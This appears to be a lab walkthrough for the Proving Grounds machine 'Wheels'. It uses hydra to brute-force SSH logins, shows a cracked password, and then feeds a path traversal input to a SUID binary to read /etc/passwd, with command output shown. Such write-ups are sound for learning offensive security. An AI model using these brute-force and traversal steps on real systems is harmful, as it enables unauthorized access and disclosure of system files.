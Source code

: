 ## Initial Foothold

Use `hydra` to brute force the credentials for SSH.

```sh
naveenj@hackerspace:|01:04|~/proving_grounds/Wheels$ hydra -L users -P passwd ssh://192.168.196.202
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-08 01:04:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:3/p:5), ~1 try per task
[DATA] attacking ssh://192.168.196.202:22/
[22][ssh] host: 192.168.196.202   login: bob   password: Iamrockinginmyroom1212     #password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-08 01:04:59
```

**Initial Foothold Obtained**

## Privilege Escalation

Upon doing recon a file with SUID bit has been set to a binary file named `get-list` has been found in the `/opt` directory. The binary prints the employees or customers list if the input is either `employees/customers`.

After a while trying multiple techniques to check the functionality of the binary results that it reads inputs, and prints list of employees and customers and also it reads contents from other files too.

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ./../etc/passwd#employees
Opening File....
```

### Bypass

Add space between the file to read and the input `../../etc/passwd #employees`.

**/etc/passwd**

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ../../etc/passwd #employees
Opening File....

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```
